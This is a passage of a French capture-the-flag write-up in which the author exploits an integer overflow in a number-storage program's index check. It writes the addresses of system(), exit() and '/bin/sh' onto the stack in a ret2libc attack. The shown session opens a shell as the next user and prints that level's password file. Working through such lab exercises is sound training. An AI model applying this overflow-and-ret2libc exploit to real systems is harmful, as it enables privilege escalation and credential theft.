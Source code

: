 Cette valeur, utilisée en tant qu'index sur un array d'int, devrait être multiplié par 4, puis overflow pour équivaloir enfin 114. Je dois également m'assurer qu'elle passe le second check : `(index >> 24 == 183)` => `1073741938 >> 24 = 64`, je peux donc utiliser cette valeur comme un index pointant sur l'adresse de `system()`.

Récapitulatif des adresses, que je dois convertir en décimale puisque `scanf()` de `get_unum()` s'attend à un `%u` :

=> `system()` => 0xf7e6aed0 => 4159090384 at index 1073741938
=> `exit()` => 0xf7e5eb70 => 4159040368 at index 115
=> `/bin/sh` => 0xf7f897ed => 4160264172 at index 116

Je tente d'utiliser le programme avec ces valeurs "infectées" :

```bash
$ ./level07
----------------------------------------------------
  Welcome to wil's crappy number storage service!
----------------------------------------------------
 Commands:
    store - store a number into the data storage
    read  - read a number from the data storage
    quit  - exit the program
----------------------------------------------------
   wil has reserved some storage :>
----------------------------------------------------

Input command: store
 Number: 4159090384
 Index: 1073741938
 Completed store command successfully
Input command: store
 Number: 4159040368
 Index: 115
 Completed store command successfully
Input command: store
 Number: 4160264172
 Index: 116
 Completed store command successfully
Input command: quit
$ whoami
level08
$ cat /home/users/level08/.pass
7WJ6jFBzrcjEYXudxnM3kdW7n3qyxR6tk2xGrkSC
$
```

Avec succès !

